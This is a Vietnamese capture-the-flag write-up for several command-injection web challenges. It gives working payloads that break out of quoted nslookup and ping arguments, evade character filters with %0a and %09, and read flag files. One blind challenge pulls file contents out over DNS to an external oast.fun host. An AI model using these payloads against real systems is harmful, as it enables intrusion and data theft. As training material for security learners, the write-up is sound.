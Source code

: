 # NSLookup (Level 1):

![image](https://hackmd.io/_uploads/BJA94_-C1l.png)
- Có thể thấy trong phần code của web, input người dùng không được xử lú và dùng trực tiếp với lệnh `nslookup`
- Dùng `; ls -a`
![image](https://hackmd.io/_uploads/By7LSuWR1g.png)
- `; cd .. ; ls -a`
![image](https://hackmd.io/_uploads/SJZsBd-AJl.png)
- `; cd .. ; cat flag.txt`
![image](https://hackmd.io/_uploads/B1XzIObR1g.png)


# NSLookup (Level 2):

![image](https://hackmd.io/_uploads/BkThId-C1e.png)
- Code tương tự với bài trên, nhưng phần input người dùng nhập vào được đưa vào dấu `''` 
- Ta có thể bypass nó bằng việc dùng dấu `'` ở đầu và kết thúc bằng `#`: `' #`
- Thử `' ; ls -a #`
![image](https://hackmd.io/_uploads/SyEPPOZAJl.png)
- Tương tự với cách tìm bên trên: `' ; cd .. ; cat flag.txt #`
![image](https://hackmd.io/_uploads/H1ljw_bCkx.png)


# NSLookup (Level 3):
- Từ đầu bài, ta được biết `'cat', 'head', 'tail', 'less', 'strings', 'nl', "ls", "*", "curl", "wget"` đều đã bị chặn và không tồn tại trên hệ thống
- Thử với `; whoami` thì nhận được thông báo: **Please enter a valid domain.**
- view-source thì có phần JavaScript kiểm tra chuỗi nhập vào
![image](https://hackmd.io/_uploads/HkZk5d-Rye.png)
- Vì JavaScript này hoạt động ở phía Client, nên ta có thể sử dụng Burp Suite để gửi dữ liệu tùy ý đến server, bỏ qua sự kiểm tra của JavaScript
- Gửi đi 1 request đúng với `google.com`
![image](https://hackmd.io/_uploads/rJhFhdWRke.png)
- Ta thấy nó được sử dụng `nslookup 'google.com'`
- Payload: `google.com' ; find /flag?????.txt #`
![image](https://hackmd.io/_uploads/SJbPyt-Rye.png)
- Dùng `grep` để thay thế `cat`: `'; grep '' /flag1Poan.txt #`
![image](https://hackmd.io/_uploads/BJzjeY-R1g.png)


# ping-pong
- Là 1 trang web có 1 trường nhập để ping
![image](https://hackmd.io/_uploads/SJ3dMK-Akg.png)
- Thử qua với `;`, `&`, `|` thì đều bị chặn, kể cả dấu cách ` ` cũng bị chặn. Thử dùng `%0a` để xuống dòng và `%09` để dùng TAB thay vì dấu cách
- `1.1.1.1%0als%09-a`
![image](https://hackmd.io/_uploads/Skaqrtb0yx.png)
- `1.1.1.1%0acat%09/flag.txt`
![image](https://hackmd.io/_uploads/SyEgIYZCyx.png)

# Blind Command Injection
- Từ đầu bài ta có thể biết là không thể nhìn thấy kết quả và ta sẽ phải sử `OOB` và gợi ý dùng với method `OPTIONS`
![image](https://hackmd.io/_uploads/HyczwVGRke.png)
- Từ đầu bài ta cũng biết sẽ sử dụng `/?cmd=...`
- Trước tiên thử gửi request ping đến 1 server: `OPTIONS /?cmd=ping+nntcryeccdyaydrczncjueom77dmwlf62.oast.fun`
![image](https://hackmd.io/_uploads/B1lj_VMR1x.png)
- Kiểm tra bên server thì không nhận được request nào đến, và xem trong response thì có thể thấy ngoài `GET`, `OPTIONS` thì còn được allow cả `HEAD`
- `HEAD /?cmd=ping+nntcryeccdyaydrczncjueom77dmwlf62.oast.fun`
![image](https://hackmd.io/_uploads/SkpUt4fRJe.png)
- Kiểm tra log trên server thì thấy server mục tiêu đã gửi request đến
- `HEAD /?cmd=nslookup+$(ls).nntcryeccdyaydrczncjueom77dmwlf62.oast.fun`
![image](https://hackmd.io/_uploads/BypunNfCyl.png)
- Có thể thấy đã có file `run.py` được ghi vào, vậy là mình có thể dùng lệnh để `cat /flag.txt`
- `HEAD /?cmd=nslookup+$(cat+/flag.txt).nntcryeccdyaydrczncjueom77dmwlf62.oast.fun`
![image](https://hackmd.io/_uploads/HJzgTNGAkx.png)
- Lấy được flag

# Time
![image](https://hackmd.io/_uploads/ry-TR4GRJx.png)
![image](https://hackmd.io/_uploads/Hk-0REf01x.png)
- Trong source code được cung cấp, có thể thấy đoạn URL được chàn trực tiếp vào câu lệnh shell mà không được escape
- Khai thác cmdi ở đây, thử với `format=%H:%M:%S';+ls+-a'`
![image](https://hackmd.io/_uploads/HJWXgBfRJg.png)
- Nó hiện ra `views` thay vì giờ như ban đầu. Mặt khác ta lại có folder `views` trong source được cung cấp, vậy phần nào ta đã khẳng định được là cmdi thành công, thử với `cat /flag.txt` tiếp
- `format=%H:%M:%S';+cat+/flag.txt'`
![image](https://hackmd.io/_uploads/HyuubHM0kg.png)

# Command Limit Length
- `id`
- Có thể dùng `find` để thay thế `ls` hoặc bypass nó bảng `\` -> `l\s`
- [Chưa solve]
